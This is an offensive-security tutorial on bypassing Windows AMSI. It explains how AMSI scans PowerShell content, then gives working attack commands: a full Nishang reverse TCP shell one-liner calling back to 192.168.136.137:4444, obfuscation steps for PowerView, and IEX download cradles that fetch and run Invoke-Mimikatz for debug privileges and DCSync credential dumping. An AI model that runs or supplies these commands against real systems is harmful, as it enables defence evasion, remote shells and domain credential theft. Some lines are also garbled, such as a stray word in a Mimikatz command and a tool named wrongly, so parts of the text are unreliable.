

Powershell AMSI Bypass
What is AMSI ?
Essentially, AMSI is an interface on which applications or services are able to scan a script’s content for malicious usage. If a signature in the script is registered by the AMSI antimalware service provider (Windows Defender by default), it will be blocked.
- When a PowerShell process is created, AMSI.DLL is loaded from disk into its address space.
- Within AMSI.DLL, there’s a function known as AmsiScanBuffer(), essentially the function used to scan a script’s content.
- In the PowerShell command prompt, any supplied content would first be sent to AmsiScanBuffer(), before any execution takes place.
- Subsequently, AmsiScanBuffer() would check with the registered anti-virus to determine if any signatures have been created.
- If the content is deemed malicious, it would be blocked.
Obfuscation
⇒ So AMSI can be bypassed through obfuscations. You can use the following tools to create obfuscated payloads to bypass AMSI :
1) Obfuscating nishang with ISESteroids
⇒ So when we try running nishang reverse TCP it gets flagged by AMSI as malicious content :
$client = New-Object System.Net.Sockets.TCPClient("192.168.136.137",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

⇒ We fire up Powershell ISE and load ISESteroids and then obfuscate the code :


- AMSI doesn't flag it as malicious content after obfuscation and we get a reverse shell :


2) Obfuscating PowerView with Invoke-Obfuscation
⇒ So AMSI flags powerview as an malicious script so we will try and bypass this by obfuscating using Invoke-Mimikatz
Import-Module ./Invoke-Obfuscation.psd1
Out-ObfuscatedTokenCommand -Path PowerView.ps1 | Out-File powerview.ps1
- Running the obfuscated powerview :

3) Running Mimikatz by obfuscating an bypass for amsi using amsi.fail :
⇒ So we will be bypassing AMSI by forcing an error using an payload from https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

- Obfuscating it using https://amsi.fail/
⇒ Running Invoke-Mimikatz :
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command 'privilege::debug coffee'

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command '"lsadump::dcsync /all /csv"'